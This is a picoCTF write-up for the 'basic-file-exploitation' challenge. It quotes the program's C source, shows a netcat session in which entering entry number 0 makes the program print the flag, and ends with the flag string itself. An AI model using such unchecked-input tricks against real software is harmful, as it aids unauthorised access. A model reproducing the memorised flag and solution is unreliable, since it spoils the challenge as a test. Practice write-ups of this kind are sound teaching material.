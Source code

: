 ```yaml
---
exclude: true
---
```

# basic-file-exploitation

[Binary Exploitation](..)  

## Problem Description
Author: Will Hong  
Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!  
Connect to the program with netcat:  
$ nc saturn.picoctf.net 52681 **   
The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/543/program-redacted.c).  

## Write Up

The provided file `program-redacted.c` contains the code running on the server.  
The function which will display the flag is below.
```
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

The flag will be displayed if `entry_number` is 0.
The `data_read()` function cannot be called until the database has been populated with at least 1 entry.  
Combining the database being filled and exploiting the program is shown below.

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
1
Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
Please enter the entry number of your data:
0
[REDACTED]
```
This will cause the program to print the flag and exit.

## Flag

picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}**  

** Note these are user specific and will not work for you.
